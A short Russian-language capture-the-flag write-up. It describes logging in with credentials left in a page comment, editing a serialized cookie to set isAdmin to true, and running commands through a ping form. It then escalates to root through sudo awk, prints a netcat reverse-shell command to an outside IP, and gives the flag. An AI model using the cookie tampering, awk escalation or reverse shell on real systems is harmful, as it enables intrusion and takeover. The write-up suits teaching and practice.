

Сервер с формой авторизации:

На странице есть комментарий с кредами:

 ``` 'test_user', 'Stg0nPassw0rd'```

При авторизации отвечает, что мы не админ:

При авторизации в куки передается имя, логин и проверка на админа:

Если заменить проверку **isAdmin** на **true**, т.е **"isAdmin";b:1;**

Проваливаемся до страницы с формой для пингования

Выполняем команду `ls` и там видим `root_flag.txt`, который может быть прочитан рутом

Выполнение команд происходит от `www-data` и файл ему недоступен


Выполняем **sudo –l**, там видим, что можно пользователю запустить **awk** от рута


Повышаем привилегии до рута через **awk**:

Либо поднимаем шелл:
```sudo awk 'BEGIN {system("nc -e /bin/bash 192.168.88.139 31337")}'```


Либо через ```sudo awk 'BEGIN {system("cat root_flag.txt")}'```

**Получаем флаг: RDGCTF{S0mn1teln0_No_0k3y**}
